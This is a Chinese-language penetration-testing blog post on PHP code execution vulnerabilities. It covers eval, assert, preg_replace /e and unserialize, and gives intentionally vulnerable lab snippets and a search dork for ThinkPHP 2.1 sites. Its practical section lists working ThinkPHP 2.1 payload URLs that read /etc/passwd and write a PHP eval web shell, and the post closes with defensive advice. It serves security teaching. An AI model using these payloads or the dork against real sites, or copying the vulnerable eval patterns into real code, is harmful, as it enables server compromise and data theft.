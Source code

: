 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "代码执行漏洞"
topics = ["Pentest"]

+++

### 0x00 代码执行
> ```
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，
没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。
```

### 0x01 相关函数
> ```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
> 这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
> ```
执行代码
让网站写shell
甚至控制服务器
```

### 0x04 漏洞分类(也是利用点)
> ```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
> ```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval1.png" alt="代码执行漏洞使用eval函数1.png" %}}

* 示例二

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval2.png" alt="代码执行漏洞使用eval函数2.png" %}}

* 示例三

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval3.png" alt="代码执行漏洞使用eval函数3.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval4.png" alt="代码执行漏洞使用eval函数4.png" %}}

* 示例四

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval5.png" alt="代码执行漏洞使用eval函数5.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval6.png" alt="代码执行漏洞使用eval函数6.png" %}}

* 示例五

> mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)

> ```php
<?php
    $data = $GET_['data'];
    // echo $data;
    preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_preg_replace.png" alt="代码执行漏洞使用preg_replace函数.png" %}}

### 0x07 具体操作
> ```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

<br />
下一篇：http://wyb0.com/post/代码执行漏洞2/